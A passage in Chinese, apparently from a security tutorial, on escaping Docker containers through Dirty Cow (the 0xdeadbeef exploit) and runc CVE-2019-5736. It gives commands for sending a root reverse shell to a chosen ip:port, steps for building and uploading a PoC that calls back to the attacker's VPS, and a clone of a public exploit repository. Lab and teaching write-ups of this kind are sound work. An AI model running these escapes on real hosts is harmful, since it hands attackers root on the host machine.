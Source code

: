 ```
./0xdeadbeef #反弹shell到本地主机
./0xdeadbeef ip:port #反弹shell到指定主机的指定端口
```

### 3. 利用脚本

```
ls -alh /.dockerenv
```

```
cat /proc/1/cgroup
```

我们直接反弹宿主机的 shell 到 127.0.0.1 如图所示  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4Rltfiaiaj8PmwLYjETapb1I4vkbGCn0xRLdibwarFOrkM0ExdGQMxE8Y6h1eQ/640?wx_fmt=png)  
这时候我们进入 root 文件夹内创建一个任意文件，这里文件名我们定义为 random_file。  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4RltfK9ANeTzh6bx4ibrPsziaxV4Wr9RTOS8LgibFT3prGRRQ33ANBic6pxfptQ/640?wx_fmt=png)  
这时候我们进入宿主机看看 (由于是实验环境，所以我们可以通过正常的渠道直接进入宿主机看漏洞利用情况)：  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4Rltf7eEdUlgxmJtmcTqURjq1tGKg1Amk6cHdk40dQo52BlB3icLkzD21rRA/640?wx_fmt=png)  
发现宿主机上有我们刚创建的文件，至此 docker 逃逸成功。

可以通过 i 春秋的练习环境来进行此实验:  
利用 Dirty Cow 实现 Docker 逃逸

**通过 cve-2019-5736 来达到 docker 逃逸**
==================================

**1. 利用原理与条件**
--------------

通过在 docker 容器内重写和运行主机系统的 runc 二进制文件达到逃逸的目的。

利用条件为：

1.  runc 版本 <=1.0-rc6
    
2.  Docker Version < 18.09.2
    

**2. 漏洞触发过程**
-------------

首先我们得有一个 docker 下的 shell，第二步修改利用脚本中的反弹 shell 命令，第三步使用 go build 来编译脚本，第四步将脚本上传到 docker 中，第五步等待宿主机执行 exec 进入当前 docker 容器等时候，宿主机就会向我们的 vps 反弹 root 权限的 shell。

**3. 具体操作**
-----------

### 第一步：确定 docker 环境

```
git clone https://github.com/Frichetten/CVE-2019-5736-PoC.git
```

docker 环境中根目录下存在此文件  
